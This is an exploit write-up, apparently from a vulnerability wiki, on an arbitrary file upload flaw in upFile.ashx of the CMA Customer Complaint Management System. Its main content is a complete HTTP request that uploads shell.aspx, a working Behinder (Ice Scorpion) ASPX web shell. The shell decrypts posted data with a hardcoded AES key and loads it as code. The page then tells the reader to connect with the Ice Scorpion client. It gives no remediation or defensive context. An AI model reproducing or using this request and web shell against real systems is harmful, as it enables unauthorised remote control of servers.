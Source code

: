 # CMA Customer Complaint Management System upFile.ashx A vulnerability to upload any file

## Vulnerability Description

CMA Customer Complaint Management System There is a vulnerability to upload any file to the upFile.ashx file. Through the vulnerability attacker, you can upload any file to control the server.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">CMA Customer Complaint Management System</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630077859995-d563e899-7674-4370-b05e-94b72a5bfe7c.png)

Send request package to upload file

```python
POST /upFile/upFile.ashx HTTP/1.1
Host: 
Content-Length: 562
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymXf9pBIUlDVOYtnZ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

------WebKitFormBoundarymXf9pBIUlDVOYtnZ
Content-Disposition: form-data; name="file"; filename="shell.aspx"
Content-Type: application/octet-stream

<%@ Page Language="C#" %><%@Import Namespace="System.Reflection"%><%Session.Add("k","e45e329feb5d925b");byte[] k = Encoding.Default.GetBytes(Session[0] + ""),c = Request.BinaryRead(Request.ContentLength);Assembly.Load(new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(k, k).TransformFinalBlock(c, 0, c.Length)).CreateInstance("U").Equals(this);%>

------WebKitFormBoundarymXf9pBIUlDVOYtnZ--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630077920980-30952928-5af7-4b07-8aa4-dda8c323f5b4.png)

After sending, echo the path, use the Ice Scorpion connection

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630077956266-b7a3a7b2-690a-423e-86d3-1d747405aa34.png)